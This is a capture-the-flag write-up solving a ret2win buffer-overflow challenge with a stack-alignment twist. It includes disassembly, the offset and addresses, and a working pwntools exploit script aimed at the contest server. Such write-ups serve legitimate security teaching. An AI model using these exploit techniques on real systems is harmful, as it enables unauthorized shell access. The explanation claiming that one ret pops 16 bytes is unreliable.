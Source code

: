 # patched-shell #

## Overview ##

Category: Binary Exploitation


Tags: `#Ret2win` `#Stack` `#Overflow` `#Write-What-Where` `#Underflow` `#Overwrite` `#Win` `#Flag` `#Pwntools` `#Ghidra` `#Checksec` `#Calling convention`

## Description ##

Okay, okay. So you were smart enough to do basic overflow huh...

Now try this challenge! I patched the shell function so 
it calls system instead of execve... so now your exploit 
shouldn't work! bwahahahahaha

nc 34.134.173.142 5000
## Approach ##

>**Note:** This challenge bears a strong resemblance to the basic-overflow challenge. If you are already familiar with that challenge and have read the corresponding write-up, feel free to skip ahead to the section discussing the specific problem at hand.

Began by disassembling the `patched-shell` binary 
within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Upon examining the disassembled output, we encounter the main() function, which notably includes a call to gets(). This function is notorious for its security vulnerabilities, primarily because it lacks bounds checking for its input size. The relevant section of the code is as follows:

     undefined8 main(void)

      {
      char local_48 [64];
      gets(local_48);
      return 0;
      }

This usage of gets() immediately suggests that the program is susceptible to a buffer overflow attack. This vulnerability arises because gets() does not limit the amount of data read, potentially allowing more data than the allocated buffer size (local_48 in this case, which is 64 bytes) and thus overwriting adjacent memory.

As our analysis progresses, we also discover the shell() function. This function is evidently crafted to execute a shell, as indicated by its implementation:           
    
    void shell(void)

    {
      system("/bin/sh");
      return;
    }


    

This is a well-known attack called ret2win in order to trigger the shell function we must firstly overwrite the return address of main() with the address of shell().
That's why we need to find the address of shell() in the binary. We can do this by using Ghidra's symbol tree to search for the function name. The address of shell() is `0x0000000000401136`.
Our offset is 72 bytes(64 bytes for local_48 + 8 bytes for the saved base pointer). We can use pwntools to send the payload to the binary.

## Problem ##
If we attempt to execute the exploit previously utilized in the basic-overflow
challenge, we observe that it fails to open a shell, resulting in an EOF error
instead. The reason behind this failure is attributable to a patch applied to the
shell() function. Specifically, this patch modified the function by replacing
the execve() call with a system() call.

The system() function operates using SSE (Streaming SIMD Extensions) instructions,
which require the stack to be aligned to 16 bytes. In this scenario, however,
the stack is only aligned to 8 bytes. As a result, the system() function does
not execute as intended, since a 16-byte alignment is necessary for its
proper operation. The exploit would succeed if the stack 
alignment is adjusted to 16 bytes. 

The solution to this problem is actually quite simple. We can simply add a return instruction to the payload, which will align the stack to 16 bytes. This is because the return instruction will pop the return address from the stack, which is 8 bytes, and then pop the base pointer from the stack, which is another 8 bytes. This will align the stack to 16 bytes, which is the required alignment for the system() function to execute properly.
We can either use the return address of main() or the return address of shell() as the return instruction. In this case, we will use the return address of main() as the return instruction. The return address of main() is `0x000000000040116b`. We can use Ghidra's symbol tree to search for the function name. We can then use pwntools to send the payload to the binary. The final payload is as follows: 72 arbitrary bytes + return address of main() + address of shell().

  


## Solution ##


Final `pwntools` script used in the event :

    from pwn import*

    r=remote("34.134.173.142",5000)
    offset=72

    shell=p64(0x0000000000401136)
    ret=p64(0x000000000040116b)
    payload=b'A'*72+ret+shell


    r.sendline(payload)
    r.interactive()

After running the script, we can see that we have a shell. We can then use the `ls` command to list the files in the current directory, and `cat flag` to read the flag.


## Flag ##
`uoftctf{patched_the_wrong_function}`